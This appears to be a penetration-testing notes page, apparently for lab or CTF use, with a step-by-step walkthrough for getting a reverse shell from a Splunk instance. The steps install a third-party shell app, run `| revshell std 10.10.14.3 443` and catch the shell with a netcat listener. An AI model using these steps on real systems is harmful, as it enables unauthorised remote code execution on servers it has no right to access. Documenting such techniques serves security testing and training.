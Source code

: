# (8000) Splunk

<details>

<summary>Reverse Shell from Splunk</summary>

Download  [https://github.com/TBGSecurity/splunk\_shells/archive/1.2.tar.gz](https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz)

Click on "Search & Reporting"

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"App: Search & Reporting" --> Manage Apps

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"Install app from file"

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Upload "splunk\_shells-1.2.tar.gz"

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

"Restart Now"

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to "App: Search & Reporting" and use the command: `| revshell std 10.10.14.3 443`

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Click on "Permissions"

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Select "All apps" --> "Save"

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

nc -lvp 443

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

</details>
